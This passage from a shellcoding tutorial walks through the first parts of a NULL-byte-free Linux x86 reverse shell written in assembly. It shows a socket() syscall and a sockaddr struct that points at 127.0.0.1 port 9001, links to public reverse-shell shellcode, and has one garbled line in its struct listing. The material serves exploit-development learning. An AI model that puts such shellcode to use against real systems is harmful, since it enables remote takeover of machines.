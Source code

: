 The first system call we want to implement into our reverse shell script is the socket(). This was used within our TCP bind shell, and for that reason i won’t be explaining it as much as I did there. The implementation was the same and approach taken reflected that of my second bind shell attempt, preventing any NULL bytes from being in the final payload:

```
; syscall socket 359 (0x167)
; int socket(int domain, int type, int protocol); - returns fd
mov ax, 0x167       ; sys call number
mov bl, 0x2         ; AF_INET
mov cl, 0x1         ; SOCK_STREAM
; EDX should already be 0 from initial clear up top
    
int 0x80            ; exec syscall
mov edi, eax        ; save the fd
```

The second system call required is new to us, and required a bit of work to get up and running correctly. This call is the connect() system call. Looking at our table above, we can see that we need the following:
* our file descriptor that was returned from socket()
* a pointer to a sockaddr struct
* the size of this sockaddr struct in memory

As previously researched in exercise 1, the sockaddr struct contains the following data (taken from https://www.cs.cmu.edu/~srini/15-441/S10/lectures/r01-sockets.pdf):

```
struct sockaddr_in {
    short sin_family; // e.g. AF_INET
    ‏)3490(unsigned short sin_port; // e.g. htons
    struct in_addr sin_addr; // see struct in_addr, below 
    char sin_zero[8]; // zero     this if you want to
};
```

So now we have our struct definition, we want to include the following information:
* AF_INET (2)
* The port number (I used 9001 - 0x2329)
* The address (127.0.0.1 as we are listening locally)
* 0

Before walking through our implementation, we need to address the fact that the target IP address (in this case) will contain two separate 0’s, which will result in NULL bytes existing in our payload. This can be addressed in various ways, for example, h0mbre_ pushed a value into the target address and subtracted another value from it - resulting in the target value without hardcoding any 0 values. For my approach, I zeroed the register and then moved single bytes into the target areas of the register using the ‘mov byte’ instruction. I found this was also used in a NULL byte free reverse shell online at https://packetstormsecurity.com/files/154374/Linux-x86-TCP-Reverse-Shell-127.0.0.1-Nullbyte-Free-Shellcode.html. The following snippet shows my implementation and how I created my data struct, along with my target IP address (127.0.0.1) without any NULL bytes existing.

```
; create our struct
xor ecx, ecx
push ecx
mov byte [esp], 0x7f      ; now esp is: 0x0000007f
mov byte [esp+3],0x01     ; now esp is 0x0100007f
push ecx
push word 0x2923          ; port 9001
push word 0x2             ; AF_INET
mov ecx, esp              ; set the 2nd param to equal a pointer to our struct
```
